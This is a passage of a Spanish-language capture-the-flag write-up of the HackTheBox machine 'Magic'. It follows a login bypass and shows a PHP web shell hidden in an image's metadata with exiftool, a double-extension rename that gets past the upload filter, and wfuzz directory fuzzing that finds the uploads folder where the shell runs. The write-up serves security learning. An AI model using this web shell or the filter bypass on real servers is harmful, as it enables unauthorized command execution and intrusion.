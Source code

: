 ![GIF AUTOPWN]({{ "/assets/img/Post/GIFS/MagicSQL.gif" }})
Nuevamente obtendremos las inyecciones correctas para lograr el bypass del login.

Continuemos.

## Subida de archivo malicioso.

![](https://lh4.googleusercontent.com/Tda_ppmgHprDqarVsbGdt_ilCywAUUHrPlPEvWCbm62EcTFcgzz_RFgoQ_va0yynYCMW7vkSdVJQyRty-ixbvPyN6FETwURDJuDOIY2xxYMsl1wt8GFiqtBlI5AydBlFfGhWa4-k)

Tenemos una utilidad que nos permite subir imágenes al servidor, vamos a aprovecharnos de esto para poder lograr ejecutar comandos a nivel de sistema.

Para ello tomo una imagen cualquiera y en los metadatos le voy a meter una shell en php.

```console
intrusionz3r0@Kali:~$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' imagen.png
intrusionz3r0@Kali:~$ mv imagen.png imagen.php.png
```

Subo la imagen.

![](https://lh3.googleusercontent.com/1bpq5JXNyIyFsDdjLe_oS3gbnpgVxNJwjMBG5jxqHKuR3KBUXSZ2pQDCzvDqSrEqbfzuxlVay3bBGanJ1nW5z93kSGQWd2878eQlpCU_-WURjNpLpPWlEKKnPpFnD7wp1o2jN5F5)


Ahora debemos buscar donde se suben las imágenes.

Si recuerdas anteriormente habíamos encontrado la ruta `images`, por lo que vamos a fuzzear nuevamente a ver si encontramos la ruta donde se suben las imágenes.

```console
intrusionz3r0@Kali:~$ wfuzz -c --hc 403,404 -t 200 -w /usr/share/wordlists/dirb/common.txt http://magic.htb/images/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://magic.htb/images/FUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                 
===================================================================

000004216:   301        9 L      28 W     315 Ch      "uploads"
```
**¡¡Eureka!!**

Nos dirigimos a nuestra imagen y vemos que nuestra shell en php se interpreta.

![](https://lh6.googleusercontent.com/QwjEP9K7eAkDUiVgn-BYgHhDl0BKQwIvpkqn_MYUplWfoIg8XNoeytkGgUv5nI2B4oVUhXYEJwZvwLoYbVY5S2SL0zGHZYX1fczwv2CS-IspWxmyC8ipYO00l1y3egH5OiPAbkCz)
